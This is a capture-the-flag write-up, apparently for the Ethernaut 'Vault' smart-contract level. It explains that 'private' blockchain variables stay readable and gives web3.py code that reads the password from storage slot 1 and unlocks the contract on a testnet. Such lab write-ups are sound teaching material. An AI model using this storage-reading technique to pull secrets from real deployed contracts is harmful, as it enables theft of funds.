 # Vault

## Objectives

Unlock the vault to pass the level!

## Solution

Sensitive data like passwords are not safe to store on the blockchain. Even in private variables, *Especially* if we have the source code of the contract, which is likely to be public in order to increase transparency and confidence in the piece of software, as the blockchain deals with actual money and as users we should always assume a closed source contract is trying to steal our funds.

In this case, the state variables are stored in the contract storage, and because the variable `password` is a 32 byte piece of data, it will always fill an entire slot, making its position very predictable in the 2nd slot of the contract, as the 2nd state variable defined.

In this case, we can easily use the function `getStorageAt()` on web3.py to see what the password is by looking up in the 2nd storage slot. Then we can optionally convert it to text to see what the password is. In this case, the password is:

```python
>>> web3.toText(web3.eth.getStorageAt(vault.address, '0x01').hex())
'A very strong secret password :)'
```

## How I did it

1. Get the password from the contract's storage

```python
password = web3.eth.getStorageAt(EthernautInstances['vault'], '0x01')
```

2. Unlock the vault using the password

```python
vault.unlock(password, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x03ec2e81ed977af2394d251f6fba6f25af30fb36bbcaaa98e59f04c40a57c81f

3. Check if the vault is locked through the `locked` state variable

```python
locked_assertion = vault.locked() == False
print(f'Is the vault unlocked? {locked_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xfc76f78a068bb6b02333b7c64024f7416c658feeea3ac2fd6e51217db3b138c3
